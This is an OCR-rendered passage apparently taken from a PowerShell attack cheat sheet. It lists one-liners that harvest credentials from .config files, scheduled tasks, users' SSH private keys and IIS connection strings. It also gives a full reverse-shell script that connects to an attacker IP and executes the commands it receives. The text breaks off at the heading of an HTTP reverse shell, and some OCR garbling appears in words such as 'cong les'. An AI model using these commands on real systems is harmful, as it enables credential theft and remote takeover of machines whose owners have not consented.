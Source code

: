 ### Reading Credentials from Configuration Files

Searches for strings containing ‘password=’ in all .cong les on the C: drive, which can reveal hardcodedcode credentials.

```powershell
Get-ChildItem -Path C:\ -Include *.config -Recurse | Select-String -Pattern 'password='
```

### Dumping Credentials from Scheduled Tasks

Lists scheduled tasks that are congured to run under specic user accounts, potentially revealing credentials used for task execution.

```powershell
Get-ScheduledTask | Where-Object {$_.Principal.UserId -notlike 'S-1-5-18'} | Select-Object TaskName, TaskPath, Principal
```

### Extracting SSH Keys from User Directories

Searches for RSA private keys in the .ssh directories of all users, which can be used for unauthorized access to SSH servers.

```powershell
Get-ChildItem -Path C:\Users\*\.ssh\id_rsa -Recurse
```

### Retrieving Credentials from Database Connection Strings

Scans for database connection strings in web application conguration les, which often contain credentials for database access.

```powershell
Select-String -Path C:\inetpub\wwwroot\*.config -Pattern 'connectionString' -CaseSensitive
```

### Simple PowerShell Reverse Shell

Establishes a basic reverse shell connection to a specied attacker-controlled machine. This allows the attacker to execute commands remotely.

```powershell
$client = New-Object System.Net.Sockets.TCPClient('attacker_ip', attacker_port); $stream =
$client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0,
$bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,
$i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()}; $client.Close()
```

### HTTP-Based PowerShell Reverse Shell
